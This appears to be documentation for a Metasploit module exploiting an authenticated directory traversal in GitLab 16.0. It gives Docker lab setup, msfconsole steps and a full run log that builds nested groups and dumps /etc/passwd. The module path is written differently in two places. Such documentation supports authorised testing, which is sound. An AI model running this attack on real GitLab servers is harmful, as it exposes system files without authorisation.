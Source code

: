 ## Vulnerable Application

GitLab version 16.0 contains a directory traversal for arbitrary file read
as the `gitlab-www` user. This module requires authentication for exploitation.
In order to use this module, a user must be able to create a project and groups.
When exploiting this vulnerability, there is a direct correlation between the traversal
depth, and the depth of groups the vulnerable project is in. The minimum for this seems
to be `5`, but up to `11` have also been observed. An example of this, is if the directory
traversal needs a depth of `11`, a group
and 10 nested child groups, each a sub of the previous, will be created (adding up to `11`).
Visually this looks like:
`Group1->child1->child2->child3->child4->child5->child6->child7->child8->child9->child10`.
If the depth was `5`, a group and 4 nested child groups would be created.
With all these requirements satisfied a dummy file is uploaded, and the full
traversal is then executed. Cleanup is performed by deleting the first group which
cascades to deleting all other objects created.

Tested on a Docker image of GitLab 16.0

### Install

A Docker image is available:

```
sudo docker run --detach \
  --hostname gitlab.example.com \
  --publish 443:443 --publish 80:80 --publish 22:22 \
  --name gitlab \
  --restart always \
  --volume $GITLAB_HOME/config:/etc/gitlab \
  --volume $GITLAB_HOME/logs:/var/log/gitlab \
  --volume $GITLAB_HOME/data:/var/opt/gitlab \
  --shm-size 256m \
gitlab/gitlab-ee:16.0.0-ee.0 
```

To retrieve the default password:

```
sudo docker exec -it gitlab grep 'Password:' /etc/gitlab/initial_root_password
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/gitlab_authenticated_subgroups_file_read`
1. Do: `set rhosts [ip]`
1. Do: `set username [username]`
1. DO: `set password [password]`
1. Do: `run`
1. You should be able to read an arbitrary file.

## Options

### DEPTH

Depth for path traversal (also groups creation). 11 seems pretty safe but it may work with less. Defaults to `11`.

### FILE

File to read. Defaults to `/etc/passwd`

## Scenarios

### Docker GitLab 16.0

```
[*] Processing gitlab.rb for ERB directives.
resource (gitlab.rb)> use auxiliary/gather/gitlab_authenticated_subgroups_file_read
resource (gitlab.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (gitlab.rb)> set username root
username => root
resource (gitlab.rb)> set password 9ADJtW5hHcrTYKDZ2yeQduyHyWuGUk7b9ikV/njVVC4=
password => 9ADJtW5hHcrTYKDZ2yeQduyHyWuGUk7b9ikV/njVVC4=
resource (gitlab.rb)> set verbose true
verbose => true
resource (gitlab.rb)> exploit
[*] Running module against 127.0.0.1
[+] CSRF Token: dPAr4PTaCuwRU5-j-snq7FfX1V0qh7MoDguHWbUCXCPnwKK3azJXGaF5QxXjRtXkn2_ORLoEt8-NGf59fngrUg
[*] Creating 11 groups
[*] Creating group: GYS2KiLq
[+] CSRF Token: RiloN6gmbtG6kHO55i7i0LFqaN38Bwd_EZCHW2Q9UcLVGeFgN84zJAq6rw__od3YedJzxGyEA5iSgv5_r0cmsw
[*] Creating child group: YzJEBtNX with parent id: 2
[+] CSRF Token: uSAAt3_f4qbQtpxzkyI-vefpmQhh3vxFtee7I1bmVxUqEIng4De_U2CcQMWKrQG1L1GCEfFd-KI29cIHnZwgZA
[*] Creating child group: kl9AGSEx with parent id: 3
[+] CSRF Token: ujc-Maz6zilT6D5fPjiq-s0CtVg9CYm43f71Eiu35I0pB7dmMxKT3OPC4uknt5XyBbquQa2KjV9e7Iw24M2T_A
[*] Creating child group: 9QC5nfTB with parent id: 4
[+] CSRF Token: mkDq3WQ7BdDAfiO_INXVAZ7UOeNPlHXJqx0_0TfqmgwJcGOK-9NYJXBU_wk5WuoJVmwi-t8XcS4oD0b1_JDtfQ
[*] Creating child group: ssHxNX3y with parent id: 5
[+] CSRF Token: -9mNSwNeTCTQ6EmVxDV4yAq1O7TvVbpvctLZJwO0d4Fo6QQcnLYR0WDClSPdukfAwg0grX_WvojxwKADyM4A8A
[*] Creating child group: w7bktrEs with parent id: 6
[+] CSRF Token: bnozD-CZzDp00QJ9Fx9pVEcwg6QO_1iykxrRUg17NIH9SrpYf3GRz8T73ssOkFZcj4iYvZ58XFUQCKh2xgFD8A
[*] Creating child group: uU8ELnQm with parent id: 7
[+] CSRF Token: l57r09_W7GDI5VXVZ5SS0BOatod1-HCZyZj2z3J_Ac8ErmKEQD6xlXjPiWN-G63Y2yKtnuV7dH5Kio_ruQV2vg
[*] Creating child group: o23bujpZ with parent id: 8
[+] CSRF Token: 81sCdo47UC5diIjdq_uquTFpMwzNDnV-mG9RprW-ACdga4shEdMN2-2iVGuydJWx-dEoFV2NcZkbfSiCfsR3Vg
[*] Creating child group: A3ksDjIZ with parent id: 9
[+] CSRF Token: SQAMHEjnus9-5Qk-leIXDxLUTDfpD6tfP5fTqgTodezaMIVL1w_nOs7P1YiMbSgH2mxXLnmMr7i8haqOz5ICnQ
[*] Creating child group: fefAYofd with parent id: 10
[+] CSRF Token: wAeXzAb4bFXWLnys1qQ1HCgXtwPplB9ACCdTliQbWTpTNx6bmRAxoGYEoBrPKwoU4K-sGnkXG6eLNSqy72EuSw
[*] Creating child group: d9ojqIJp with parent id: 11
[+] CSRF Token: Jmtw9u0oBZ-TbViSBqgoNaj5NI5hxeIhKb9SWtR-TL-1W_mhcsBYaiNHhCQfJxc9YEEvl_FG5saqrSt-HwQ7zg
[*] Creating project WELLohsl
[*] Creating a dummy file in project
[*] Executing dir traversal
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh

[+] /etc/passwd saved to /root/.msf4/loot/20230602160435_default_127.0.0.1_GitLabfile_635783.txt
[*] Deleting group GYS2KiLq
[*] Auxiliary module execution completed
```
